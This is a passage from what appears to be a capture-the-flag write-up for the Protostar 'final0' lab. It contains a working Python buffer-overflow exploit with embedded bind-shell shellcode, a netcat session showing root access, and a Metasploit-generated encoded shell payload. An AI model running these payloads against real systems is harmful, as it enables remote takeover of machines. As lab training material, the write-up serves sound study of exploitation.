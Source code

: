 ```
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 2995))

offset = 532
ret = "\xbf\xfa\xff\xbf" #0xbffffabf

nop = "\x90"*16

#http://www.exploit-db.com/exploits/13427/
shellcode = "\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff" \
"\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47" \
"\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xed" \
"DBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKB" \
"AFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIA" \
"JDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJO" \
"BLAALMNIA"

junk = "a"*(offset-len(nop)-len(shellcode))

s.send(nop + shellcode + junk + ret)
```

I then ran this script:

```
root@protostar:/home/user# ./final0_before.py
```

The shellcode said that it would bind a shell to port 5074, so I used netcat to connect.

```
root@protostar:/home/user# nc localhost 5074
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

That's root access from the network.  Challenge complete.

After
-----

When putting the shellcode after the return address, we don't have to worry about the "toupper()" function.  I simply used the [Metasploit Framework's](http://www.metasploit.com) msfpayload and msfencode functions to generate a basic bind shell.

```
mandreko@li225-134:~$ msfpayload linux/x86/shell_bind_tcp R | msfencode -b '\x00\xff\x0d\x0a' -e x86/shikata_ga_nai -t c
[*] x86/shikata_ga_nai succeeded with size 105 (iteration=1)

unsigned char buf[] = 
"\xdb\xce\xd9\x74\x24\xf4\xbb\xa3\xc2\x12\x69\x58\x2b\xc9\xb1"
"\x14\x31\x58\x19\x03\x58\x19\x83\xe8\xfc\x41\x37\x23\xb2\x72"
"\x5b\x17\x07\x2f\xf6\x9a\x0e\x2e\xb6\xfd\xdd\x30\xec\x5f\x8c"
"\x58\xec\x62\x21\xc4\x78\x73\x10\xa4\xf5\x92\xf8\x22\x5e\x98"
"\x7d\x23\x1f\x26\xcd\x37\x10\x40\xfc\xb7\x13\x3d\x98\x7a\x13"
"\xae\x3c\xee\x2b\x89\x73\x6e\x1a\x50\x74\x06\xb2\x8d\xf7\xbe"
"\xa4\xfe\x95\x57\x5b\x88\xb9\xf7\xf0\x03\xdc\x47\xfd\xde\x9f";
```
